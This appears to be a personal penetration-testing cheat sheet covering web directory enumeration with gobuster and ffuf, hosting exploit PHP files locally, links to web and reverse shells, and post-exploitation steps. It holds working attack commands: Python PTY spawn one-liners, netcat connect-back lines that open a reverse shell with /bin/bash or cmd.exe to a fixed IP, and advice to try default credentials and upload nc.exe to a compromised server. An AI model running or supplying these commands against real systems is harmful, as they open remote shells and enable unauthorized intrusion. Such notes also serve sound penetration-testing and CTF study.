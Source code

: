 DIRECTORIES ENUMERATION
 
    Gobuster
       • gobuster -e -u http://<target.com>/ -w /usr/share/wordlists/dirb/common.txt
       
    Dirbuster
    
    ffuf
       • ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target.com>/FFUF
       
    Robots
      • http://<target.com>/robots.txt
    
    
    ////If login page is found, always try with default credentails first, and try to bypass second.



-------------------------------------------------------------------------------------------------------------------------------------



EXPLOITATION WITH HTML/PHP FILES FROM LOCAL MACHINE

  Running exploit HTML/PHP files
       • save exploit HTML/PHP files to /var/www/html
       • start apache2 server
       • run in browser localhost




-------------------------------------------------------------------------------------------------------------------------------------



USEFUL SHELL FOR WEB PAGE EXPLOITATION

  Command line Shells
  
       • https://github.com/flozz/p0wny-shell 
   
   
  Reverse Shells
  
       • http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
       • https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php



 ////If initial shell is occured, always try to spawn full shell (e.g, try python shell spawn, [in Windows] try to download nc.exe to server and connect back)
 
 
 Python Shell Spwan
 
       • python -c 'import pty;pty.spawn("/bin/sh")
       
       • python3 -c 'import pty;pty.spawn("/bin/sh")
    
    
 Netcat Connect Back
 
       • nc.exe 192.168.100.113 4444 –e cmd.exe   ////on Windows machines
       
       • nc 192.168.100.113 4444 –e /bin/bash     ////on Linux machines
       
       
       
 -------------------------------------------------------------------------------------------------------------------------------------
      
       
 
 
